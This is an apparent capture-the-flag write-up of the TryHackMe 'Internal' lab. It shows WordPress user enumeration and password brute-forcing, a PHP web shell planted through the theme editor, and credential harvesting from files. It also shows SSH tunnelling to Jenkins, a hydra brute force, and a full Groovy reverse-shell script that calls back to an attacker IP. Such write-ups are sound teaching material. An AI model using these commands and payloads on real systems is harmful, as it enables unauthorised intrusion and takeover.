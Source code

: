 ```yaml
---
layout: default
title: Internal
description: THM - Internal
---
```


## Enumeration

Nmap Scan:
```
Starting Nmap 7.94 ( https://nmap.org ) at 2023-09-23 21:21 EEST
Nmap scan report for 10.10.61.56
Host is up (0.070s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 32.14 seconds
```

Gobuster:
```
/blog
/wordpress
/javascript
```
WPscan:
```
wpscan --url http://10.10.61.56/blog/ --enumerate u

[i] User(s) Identified:

[+] admin
 | Found By: Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 | Confirmed By: Login Error Messages (Aggressive Detection)
```
This would be a good time to add “internal.thm” to your “/etc/hosts”.

Now, while I look around on the pages for any clues (CTFs am i right?), I'll start wpscan to bruteforce the wordpress login.

While I was looking around, wpscan found something.
```
[!] Valid Combinations Found:
 | Username: admin, Password: [REDACTED]
```
And we logged in!

Now we'll navigate to “Appearance/Theme Editor” and replace the “404.php” file contents with a php shell. I'll use the one from PentestMonkey.

The theme is Twenty Seventeen, so our shell will be located at 
```
http://internal.thm/blog/wp-content/themes/twentyseventeen/404.php
```
Now we got our shell:
```
# nc -lvnp 9002            
Listening on 0.0.0.0 9002
Connection received on 10.10.61.56 39104
Linux internal 4.15.0-112-generic #113-Ubuntu SMP Thu Jul 9 23:41:39 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
 15:37:53 up 18 min,  0 users,  load average: 0.00, 0.05, 0.08
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
sh: 0: can't access tty; job control turned off
$ 

```

I recommend checking out “Full TTYs” from hacktricks -> [Right Here](https://book.hacktricks.xyz/generic-methodologies-and-resources/shells/full-ttys)

We cd into “/home”, and have a look around.
```
www-data@internal:/$ cd /home
cd /home
www-data@internal:/home$ ls
ls
aubreanna
www-data@internal:/home$ cd aubreanna
cd aubreanna
bash: cd: aubreanna: Permission denied
www-data@internal:/home$
```
As you can see, we don't have permission to look inside “aubreanna”

We'll also check “/opt” as it's good practice.
```
www-data@internal:/opt$ ls
ls
containerd  wp-save.txt
www-data@internal:/opt$ cat wp-save.txt
cat wp-save.txt
Bill,

Aubreanna needed these credentials for something later.  Let her know you have them and where they are.

aubreanna:[REDACTED]
www-data@internal:/opt$
```
Cool, now we have aubreanna's login info. The text file indicates wordpress access, but we already have that. So let's try to ssh into the machine using those credentials.

```
aubreanna@internal:~$ whoami
aubreanna
```
We'll read “user.txt”, submit it, and then move on.
```
aubreanna@internal:/home$ cd aubreanna/
aubreanna@internal:~$ ls
jenkins.txt  snap  user.txt
aubreanna@internal:~$ cat user.txt
[REDACTED]
aubreanna@internal:~$ 

```
We've also found a "jenkins.txt" file, let's see what's inside.
```
aubreanna@internal:~$ cat jenkins.txt 
Internal Jenkins service is running on 172.17.0.2:8080
```

Ok, we have an internal service running. Now we need to access it.

A quick look on superuser.com, talks about forwarding / ssh tunneling. As we need to access an internal service from the outside.

And so, we create an ssh tunnel:
```
ssh -N -L 5555:172.17.0.2:8080 aubreanna@10.10.61.56
```
And if we navigate to localhost:5555, we got access to a jenkins webpage.

Default credentials, or at least those that I knew of, were not working, so I'll capture the login request in burp, and then use hydra to try and bruteforce it.
```
hydra -L users.txt -P /usr/share/wordlists/rockyou.txt 127.0.0.1 -s 5555 http-post-form "/j_acegi_security_check:j_username=^USER^&j_password=^PASS^&from=%2F&Submit=Sign+in:Invalid username or password"
```
```
[5555][http-post-form] host: 127.0.0.1   login: [REDACTED]   password: [REDACTED]
```
Cool! Now we'll login, and abuse the jenkins script console to get a reverse shell again.

We'll run this script in the “http://localhost:5000/script”:
```
String host="10.18.116.220";
int port=5554;
String cmd="/bin/sh";
Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();
```
```
nc -lvnp 5554
Listening on 0.0.0.0 5554
Connection received on 10.10.61.56 56022
python -c 'import pty; pty.spawn("/bin/bash")'
jenkins@jenkins:/$ 
```
And we have another shell!

Snooping around a bit, we find this:
```
jenkins@jenkins:/$ cd /home
cd /home
jenkins@jenkins:/home$ ls
ls
jenkins@jenkins:/home$ cd /opt
cd /opt
jenkins@jenkins:/opt$ ls
ls
note.txt
jenkins@jenkins:/opt$ cat note.txt
cat note.txt
Aubreanna,

Will wanted these credentials secured behind the Jenkins container since we have several layers of defense here.  Use them if you 
need access to the root user account.

root:[REDACTED]
jenkins@jenkins:/opt$ 
```
Looks like we have the root password. Let's try to ssh using these credentials.

```
Last login: Mon Aug  3 19:59:17 2020 from 10.6.2.56
root@internal:~# id
uid=0(root) gid=0(root) groups=0(root)
root@internal:~#
```

All there's left to do, is to read the “/root/root.txt” file, and you're done!

Good hunting o7

[Try it out yourself!](https://tryhackme.com/room/internal)

[back](./)
